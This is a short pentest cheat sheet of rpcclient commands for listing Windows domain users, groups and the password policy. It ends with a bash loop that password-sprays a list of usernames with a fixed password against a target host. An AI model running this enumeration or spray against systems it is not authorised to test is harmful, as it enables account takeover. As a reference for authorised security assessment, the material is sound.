 ## User Enum

- **List users**: `querydispinfo` and `enumdomusers`
- **Get user details**: `queryuser <0xrid>`
- **Get user groups**: `queryusergroups <0xrid>`
-   **GET SID of a user**: `lookupnames <username>`


## Groups enumeration

-   **List groups**: `enumdomgroups`
-   **Get group details**: `querygroup <0xrid>`
-   **Get group members**: `querygroupmem <0xrid>`

## Password

- **Password Policy Info**: `getdompwinfo`
- **Password Spray**: 
```bash
for u in $(cat users.txt); do
	echo -n "[*] user: $u";
	rpcclient -U "$u%Autumn2015" -c "getusernam; quit" $IP
done
```